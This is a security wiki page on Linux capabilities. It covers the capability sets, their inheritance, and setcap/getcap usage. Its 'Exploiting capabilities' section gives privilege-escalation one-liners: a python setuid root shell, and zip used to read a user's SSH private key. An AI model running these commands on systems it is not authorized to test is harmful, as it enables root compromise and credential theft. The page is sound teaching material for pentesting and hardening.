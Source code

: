 # Capabilities

### Theory

Linux capabilities are a way to improve permission granularity in unix-like systems. It allows to follow the least-privilege principle by defining fine-grained permissions that can be attributed to threads and files. It works by splitting kernel calls in groups of similar functionalities.

**Basic processes :** Have no capabilities \(file access is controlled by traditional file privileges\).

**\(Binary\) files :** Can have capabilities \(filesystem-dependent\).

Capabilities are in separated in 5 sets :

| Set | Description |
| :--- | :--- |
| Effective set | the set that will be used when doing permission check. |
| Permitted set | can be moved to effective set by calling `capset()` |
| Inheritable set | can be inherited from parent processes, can be moved to effective set by calling `capset()` |
| Bounding set | list of all the capabilities a process can ever receive \(in its inheritable/permitted sets\) |
| Ambiant set | passed to non-suid files without defined capabilities |



#### Capability inheritance, capability drop

* On `fork()` call, the child thread will have the same capabilities as the parent thread.
* `capset()` syscall allows to
  * drop any capability from any set
  * move capabilities from permitted/inherited sets to effective set
* If a thread calls `execve()` on a binary file, its capabilities will be modified following the pattern described in the man pages \(see `man capabilities`\).

**Non-exhaustive capability list :**

| Capability | Description |
| :--- | :--- |
| `CAP_AUDIT_CONTROL` | Toggle kernel auditing  |
| `CAP_AUDIT_WRITE`  | Write to kernel audit log |
| `CAP_CHOWN` | Change file owners |
| `CAP_SETUID/CAP_SETGID` | Change UID/GID |
| `CAP_NET_RAW` | Open raw and packet sockets  |
| `CAP_NET_BIND_SERVICE` | Bind a socket to Internet domain privileged ports  |

### Practice

**Setting a file's capabilities :**

To change capabilities on a file, you need to type these commands as `root` :

```bash
# set capability to change uid to file (+ep to add to effective & permitted)
setcap cap_setuid+ep /path/to/file

# delete capabilites 
setcap -r /path/to/file

# get file(s) capabilities
getcap -r dir 2>/dev/null
getcap file

# listing & decoding a running process' capabilities
grep Cap /proc/$pid/status
capsh --decode=000001ffffffffff
```

**Exploiting capabilities :**

* Empty capabilities

  If a file has capabilities `/path/to/file =ep` it means it has `all` capabilities _and_ will run as `root`.

{% hint style="info" %}
To create a file with empty \(=all\) capabilities just`sudo setcap \=ep /path/to/file` 
{% endhint %}

**Other classic examples :**

* If the `python` binary has the `cap_setuid` then it becomes trivial to get a root shell :

```bash
./python -c "import os; os.setuid(0); os.system('/bin/sh')"
```

* Arbitrary file read : `zip` with `cap_dac_read_search`

```bash
# cap_dac_read_search allows zip/tar to read any file (get ssh private key here)
zip /tmp/private_k.zip ~/.ssh/id_rsa
unzip /tmp/private_k.zip -d /tmp
# id_rsa is now readable in the unzipped folder
```

**End notes :**

When copied from one place to another, a binary will lose its capabilities. In order to keep capabilities, you can copy the file with `--preserve=all` option :

```bash
# to keep capabilities when copying a binary
cp --preserve=all /origin/path /dest/path
```

### References

{% embed url="https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work" caption="" %}

{% embed url="https://blog.ploetzli.ch/2014/understanding-linux-capabilities/" caption="" %}

{% embed url="https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/" caption="" %}

